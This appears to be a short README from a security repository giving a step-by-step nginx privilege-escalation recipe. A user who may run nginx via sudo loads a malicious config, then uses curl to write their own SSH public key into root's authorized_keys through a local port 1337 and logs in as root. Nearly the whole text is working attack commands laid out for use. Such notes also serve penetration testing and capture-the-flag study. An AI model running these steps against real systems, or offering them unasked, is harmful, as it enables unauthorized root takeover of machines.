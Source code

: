 # Nginx Privilege Escalation

## Check if the user runs nginx via sudo

    sudo -l 

### Then create a malicious config file to configure with nginx (Check rootshells folder in this repo)

    sudo nginx -c /tmp/malicious.conf

### In this example, we try to connect to root via ssh by creating our own keys

    ss -tulpn (Check if the configuration file ran successfully. Check for port 1337 in this example)

    ssh-keygen (Save the key to ./root to work successfully)

    curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)" (Put the newly created public key to the "authorized_keys" file of the root user to recognize our keys)

    ssh -i root root@localhost (SSH to root with the newly created key)
